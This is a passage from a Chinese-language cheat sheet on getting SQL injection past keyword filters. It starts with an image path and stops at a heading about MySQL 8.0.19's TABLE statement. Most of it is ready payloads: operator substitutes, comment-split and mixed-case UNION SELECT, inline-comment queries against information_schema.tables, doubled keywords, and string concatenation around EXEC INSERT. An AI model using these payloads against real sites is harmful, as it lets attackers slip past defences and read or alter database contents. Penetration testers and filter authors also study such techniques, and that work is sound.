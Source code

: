 ### 使用like 、rlike 、regexp 或者 使用< 或者 >

## 过滤`or` `and` `xor` `not`

### 使用符号代替

```sql
and=`&&`  or=`||`   xor=`|`   not=`!`
```

## 过滤`union`，`select`，`where`等

### 使用**注释符**绕过

常用注释符：

`//`、`--`、`/**/`、`#`、`--+`、`---`、`;`、`%00`、`--a`

用法：

```sql
U/**/ NION /**/ SE/**/ LECT /**/user，pwd from user
```

### 使用**大小写**绕过

```sql
id=-1'UnIoN/**/SeLeCT
```

### 使用**内联注释**绕过

```sql
id=-1'/*!UnIoN*/ SeLeCT 1,2,concat(/*!table_name*/) FrOM /*information_schema*/.tables /*!WHERE *//*!TaBlE_ScHeMa*/ like database()#
```

### 使用**双关键字**绕过（若删除掉第一个匹配的union就能绕过）

```sql
id=-1'UNIunionONSeLselectECT1,2,3–-
```

### 使用**加号+拆解字符串**

```sql
or ‘swords’ =‘sw’ +’ ords’ ；EXEC(‘IN’ +’ SERT INTO ‘+’ …..’ )
```

### 使用语法新特性绕过屏蔽select

在MySQL 8.0.19版本后，mysql推出了一些新特性，使我们可以不使用select就能够取数据

#### TABLE 语句
